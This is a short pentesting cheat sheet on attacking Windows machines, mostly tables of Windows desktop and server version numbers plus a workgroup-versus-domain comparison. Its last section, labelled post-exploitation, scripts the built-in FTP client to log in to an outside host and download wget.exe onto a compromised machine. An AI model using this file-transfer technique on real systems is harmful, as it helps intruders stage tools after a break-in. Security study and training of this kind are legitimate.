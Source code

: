 # Attacking Windows Boxes
## Windows Desktop Versions

| Operating System | Version Number |
| --- | --- |
| Windows 1.0 | v1.04 |
| Windows 2.0 | v2.11 |
| Windows 3.0 | v3 |
| Windows NT 3.1 | v3.10.528 |
| Windows for Workgroups 3.11 | v3.11 |
| Windows NT Workstation 3.5 | v3.5.807 |
| Windows NT Workstation 3.51 | v3.51.1055 |
| Windows 95 | v4.0.950 |
| Windows NT Workstation 4.0 | v4.0.1381 |
| Windows 98 | v4.1.1381 |
| Windows 98 Second Edition | v4.1.2222|
| Windows Me | v4.90.3000 |
| Windows 2000 Professional | v5.0.2195 |
| Windows XP | v5.1.2600 |
| Windows Vista | v6.0.6000 |
| Windows 7 | v6.1.7600 |
| Windows 8.1 | v6.3.9600 |
| Windows 10 | v10.0.10240 |

## Windows Server Versions
```
Windows NT 3.51                  NT 3.51
Windows NT 3.5                   NT 3.50
Windows NT 3.1                   NT 3.10
Windows 2000                     NT 5.0     

    Windows 2000 Server
    Windows 2000 Advanced Server
    Windows 2000 Datacenter Server

Windows NT 4.0                   NT 4.0     

    Windows NT 4.0 Server
    Windows NT 4.0 Server Enterprise
    Windows NT 4.0 Terminal Server Edition

Windows Server 2003              NT 5.2     

    Windows Small Business Server 2003
    Windows Server 2003 Web Edition
    Windows Server 2003 Standard Edition
    Windows Server 2003 Enterprise Edition
    Windows Server 2003 Datacenter Edition
    Windows Storage Server

Windows Server 2003 R2           NT 5.2     

    Windows Small Business Server 2003 R2
    Windows Server 2003 R2 Web Edition
    Windows Server 2003 R2 Standard Edition
    Windows Server 2003 R2 Enterprise Edition
    Windows Server 2003 R2 Datacenter Edition
    Windows Compute Cluster Server 2003 (CCS)
    Windows Storage Server
    Windows Home Server

Windows Server 2008               NT 6.0     

    Windows Server 2008 Standard
    Windows Server 2008 Enterprise
    Windows Server 2008 Datacenter
    Windows Server 2008 for Itanium-based Systems
    Windows Server Foundation 2008
    Windows Essential Business Server 2008
    Windows HPC Server 2008
    Windows Small Business Server 2008
    Windows Storage Server 2008
    Windows Web Server 2008

Windows Server 2008 R2            NT 6.1     

    Windows Server 2008 R2 Foundation
    Windows Server 2008 R2 Standard
    Windows Server 2008 R2 Enterprise
    Windows Server 2008 R2 Datacenter
    Windows Server 2008 R2 for Itanium-based Systems
    Windows Web Server 2008 R2
    Windows Storage Server 2008 R2
    Windows HPC Server 2008 R2
    Windows Small Business Server 2011
    Windows MultiPoint Server 2011
    Windows Home Server 2011
    Windows MultiPoint Server 2010

Windows Server 2012               NT 6.2     

    Windows Server 2012 Foundation
    Windows Server 2012 Essentials
    Windows Server 2012 Standard
    Windows Server 2012 Datacenter
    Windows MultiPoint Server 2012

Windows Server 2012 R2            NT 6.3     

    Windows Server 2012 R2 Foundation
    Windows Server 2012 R2 Essentials
    Windows Server 2012 R2 Standard
    Windows Server 2012 R2 Datacenter

Windows Server 2016     2016       NT 10.0
```

## Workgroups vs. Domains
| Type | Description |
| --- | --- |
| Workgroup | Peer-to-Peer, Home network for small business. |
| Domains | Server-Client setup.  Login to central Domain Server via Active Directory. |


## Transferring Files to Windows - _(Post-Exploitation)_
Using the `ftp-client` that is preinstalled onto Windows:
```
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

**Afterwards run this to connect:**
```
ftp -v -n -s:ftp.txt
```
